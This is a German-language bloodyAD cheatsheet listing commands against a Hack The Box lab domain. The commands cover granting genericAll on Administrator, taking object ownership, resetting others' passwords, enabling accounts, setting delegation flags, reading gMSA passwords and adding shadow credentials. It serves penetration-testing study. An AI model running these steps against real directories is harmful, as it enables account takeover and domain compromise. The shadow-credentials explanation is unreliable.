 
## 🩸 BloodyAD Cheatsheet

<br>

🧩 **Retrieve Domain Information**

Zeigt grundlegende Informationen zur Active Directory-Domäne wie Domain-Controller, Domänenfunktionsebene und andere Metadaten an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get domain
```

<br>

🧩 **Retrieve User Information**

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object administrator
```

<br>

🧩 **Get groupMembers**

Listet alle Mitglieder der angegebenen AD-Gruppe (z. B. DEVELOPERS) auf und zeigt deren Benutzernamen und Details.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get groupMembers DEVELOPERS
```

<br>

🧩 **Add User To Group**

Zeigt alle Active Directory-Objekte an, auf die der Nutzer a.james Schreibrechte hat. Mit --detail werden zusätzlich ausführliche Informationen zu den Berechtigungen ausgegeben.
Fügt den Benutzer a.james zur Gruppe DEVELOPERS im Active Directory hinzu. Dadurch erhält der Nutzer die Rechte und Mitgliedschaften der Zielgruppe.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get writable --detail
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add groupMember DEVELOPERS a.james
```

<br>

🧩 **Add New User**

Legt einen neuen Benutzer im Active Directory an, um ihn in der Domäne zu registrieren.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add user <Benutzername>
```

<br>

🧩 **Get Computers**

Listet alle Computerobjekte innerhalb der Active Directory-Domäne auf.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get computers
```
<br>

🧩 **Change Password**

Setzt das Passwort des angegebenen Active Directory-Benutzers ($target_username) auf ein neues Passwort ($new_password). Damit kann der Nutzer das Passwort eines anderen AD-Accounts ändern.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set password $target_username $new_password
```

<br>

🧩 **Give User GenericAll Rights**

Gewährt dem Benutzer a.james volle Zugriffsrechte („genericAll“) auf das AD-Objekt „Administrator“. Dadurch kann a.james alle Eigenschaften und Berechtigungen des Administrator-Kontos ändern.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass a.james volle Rechte bekommt.“
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add genericAll "CN=Administrator,CN=Users,DC=b2syn,DC=htb" a.james
```

<br>

🧩 **Write Owner**

Setzt den Besitzer des Active Directory-Objekts „DEVELOPERS“ auf den Benutzer a.james. Dadurch erhält a.james volle Kontrolle über dieses Objekt.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set owner "CN=DEVELOPERS,DC=b2syn,DC=htb" a.james
```

<br>

🧩 **Enable a Disabled Account**

Entfernt das ACCOUNTDISABLE-Flag im User-Account-Control (UAC) des Benutzers j.calvus, wodurch das Konto wieder aktiviert wird.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' remove uac "CN=j.calvus,OU=Users,DC=b2syn,DC=htb" -f ACCOUNTDISABLE
```

<br>

🧩 **Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag**

Fügt dem Benutzerkonto service-account das UAC-Flag TRUSTED_TO_AUTH_FOR_DELEGATION hinzu. Dadurch wird das Konto für die vertrauenswürdige Delegierung autorisiert.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add uac "CN=service-account,OU=Services,DC=b2syn,DC=htb" -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

<br>

🧩 **ReadGMSAPassword**

Fragt das Active Directory-Objekt gmsa-web (Managed Service Account) ab und zeigt das Attribut msDS-ManagedPassword mit dem aktuellen verwalteten Passwort an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=gmsa-web,CN=Managed Service Accounts,DC=b2syn,DC=htb" --attr msDS-ManagedPassword
```
<br>

🧩 **Modify UPN**
Fragt beim Active Directory-Benutzer joerg das Attribut userPrincipalName ab und zeigt dessen Wert an.
Ändert im Active Directory beim Benutzer joerg das Attribut userPrincipalName auf „joerg2@b2syn.htb“. Damit wird der Anmeldename des Nutzers angepasst.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=joerg,OU=Users,DC=b2syn,DC=htb" --attr userPrincipalName
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' set object "CN=joerg,OU=Users,DC=b2syn,DC=htb" userPrincipalName -v "joerg2@b2syn.htb"
```

<br>

🧩 **Shadow Credentials**

Fügt dem AD-Benutzer joerg sogenannte Shadow Credentials hinzu, die alternative Anmeldedaten (z. B. für Azure AD Pass-Through Authentication) ermöglichen.
```zsh
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' add shadowCredentials "CN=joerg,OU=Users,DC=b2syn,DC=htb"
```



